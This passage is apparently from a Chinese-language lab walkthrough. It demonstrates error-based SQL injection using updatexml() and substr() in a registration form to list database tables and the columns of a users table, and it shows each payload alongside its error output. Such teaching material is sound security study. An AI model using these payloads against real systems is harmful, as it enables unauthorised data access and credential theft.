    ```sql
   username=hackname' and updatexml(1,(select group_concat(table_name) from information_schema.tables where table_schema=database()),1) or '&password=hackpwd&sex=hacksex&phonenum=hackphone&email=hackaddress01&add=hackaddress02&submit=submit
   ```

   ```
   网页页面显示：XPATH syntax error: ',member,message,users,xssblind'
   ```

   ![05EE5ED1](C:\Users\F1245363\AppData\Local\Temp\SGPicFaceTpBq\9656\05EE5ED1.png)emmm，你会发现这两个 payload 输出的信息都不完整！！！目前我看过很多博客笔记，大家都没解释过这个原因（**可能是因为显示长度限制无法显示出来**)！！！后面我们再谈这个问题，现在我们先去解决这个问题：利用 `substr()` 函数，也就是说这次我们从第 15 为开始显示，显示字符串的范围为 15 ~ 32.

   > 详情参考：https://www.modb.pro/db/494321
   >
   > 注：经过不断调整 substr 函数中的数字，发现能显示的最大数据长度为 31

   ```sql
   # [1 ~ 31]
   username=hackname' and updatexml(1,concat(0x7e,substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),1,31),0x7e),1) or '&password=hackpwd&sex=hacksex&phonenum=hackphone&email=hackaddress01&add=hackaddress02&submit=submit
   ```

   ```
   XPATH syntax error: '~httpinfo,member,message,users,x'
   ```

   ```sql
   # [32 ~ 32+31]
   username=hackname' and updatexml(1,concat(0x7e,substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),32,31),0x7e),1) or '&password=hackpwd&sex=hacksex&phonenum=hackphone&email=hackaddress01&add=hackaddress02&submit=submit
   ```

   ```
   XPATH syntax error: '~ssblind~'
   ```

   ==> 综上所示，我们所有的表名为：

   ``` 
   httpinfo,member,message,users,xssblind
   ```

3. 获取 user 表的列名，即字段名：

   ```sql
   # [1, 31]
   username=hackname' and updatexml(1,concat(0x7e,substr((select group_concat(column_name) from information_schema.columns where table_name='users'),1,31),0x7e),1) or '&password=hackpwd&sex=hacksex&phonenum=hackphone&email=hackaddress01&add=hackaddress02&submit=submit
   ```

   ```
   XPATH syntax error: '~id,username,password,level,id,u'
   ```

   ```sql
   # [32, 31]
   username=hackname' and updatexml(1,concat(0x7e,substr((select group_concat(column_name) from information_schema.columns where table_name='users'),32,31),0x7e),1) or '&password=hackpwd&sex=hacksex&phonenum=hackphone&email=hackaddress01&add=hackaddress02&submit=submit
   ```
